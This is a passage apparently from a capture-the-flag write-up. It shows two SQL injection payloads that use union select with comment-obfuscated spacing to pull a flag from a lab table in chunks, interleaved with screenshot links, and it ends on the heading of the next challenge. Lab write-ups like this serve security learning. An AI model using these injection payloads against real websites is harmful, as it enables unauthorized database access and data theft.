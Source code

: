 ![image-20250804165052028](./NSSCTF-3.assets/image-20250804165052028.png)

```
-1'union/**/select/**/1,mid(group_concat(id,flag),21,40),3/**/from/**/LTLT_flag%23
```

![image-20250804165132335](./NSSCTF-3.assets/image-20250804165132335.png)

```
-1'union/**/select/**/1,mid(group_concat(id,flag),41,60),3/**/from/**/LTLT_flag%23
```

![image-20250804165205359](./NSSCTF-3.assets/image-20250804165205359.png)



# [UUCTF 2022 新生赛]websign
